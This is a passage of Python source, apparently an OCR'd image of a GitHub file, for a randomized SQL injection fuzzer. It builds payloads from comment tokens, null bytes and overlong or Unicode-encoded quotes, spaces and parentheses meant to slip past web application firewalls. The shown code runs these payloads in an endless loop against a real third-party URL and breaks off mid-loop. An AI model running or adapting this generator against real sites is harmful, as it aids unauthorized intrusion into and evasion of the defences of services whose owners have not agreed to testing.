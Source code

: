 ```python
                     '/*','*','*/','/**/',' ',b'\0','%00','()','//','\\','--','#','--+','-- -',';','#',
                     '%27','%u0027','%u02b9','%u02bc','%u02c8','%u2032','%uff07','%c0%27','%c0%a7','%e0%80%a7',  # '
                     '%20','%u0020','%uff00','%c0%20','%c0%a0','%e0%80%a0',                                      # space
                     '%28','%u0028','%uff08','%c0%28','%c0%a8','%e0%80%a8',                                      # (
                     '%29','%u0029','%uff09','%c0%29','%c0%a9','%e0%80%a9',                                      # )
                     '\r','%0D','\n','%0A','%0B','\r\n'
                    ]
                    
                    
    def make_payload(using_payload_count,using_bypass_count) :
        output_payload = ''

        if not random.randint(0,9) :  #  10%
            output_payload += random.choice(['\'','"','%27','%28'])

            if not random.randint(0,1) :  #  5%
                output_payload += make_space()

        if not random.randint(0,3) :  #  25%
            output_payload += random.choice(bypass_string)

            if not random.randint(0,1) :  #  12.5%
                output_payload += make_space()

        for using_payload_count_index in range(using_payload_count) :
            if random.randint(0,1) :
                sql_tiny_element = random.choice(sql_tiny_dict)  #fuzzing_entry.random_encode_string( )
                bypass_payload = ''

                for using_bypass_count_index in range(using_bypass_count) :
                    bypass_payload += random.choice(bypass_string)

                sql_tiny_element += bypass_payload + make_space()
            else :
                sql_tiny_element = random.choice(sql_function)

                if random.randint(0,1) : #  25%
                    for using_bypass_count_index in range(using_bypass_count) :
                        sql_tiny_element += random.choice(bypass_string)

                sql_tiny_element += '(' + make_argument() + ')'

            output_payload += sql_tiny_element + make_space()

        return output_payload
        
    def fuzzing() :
        sql_url = 'https://cloud.tencent.com/?test='

        while True :
            sql_payload = make_payload(random.randint(1,6),random.randint(0,3))

            print 'SQL payload :',

            fuzzing_output.green_output(sql_payload)

            print 'is pass:' , 
```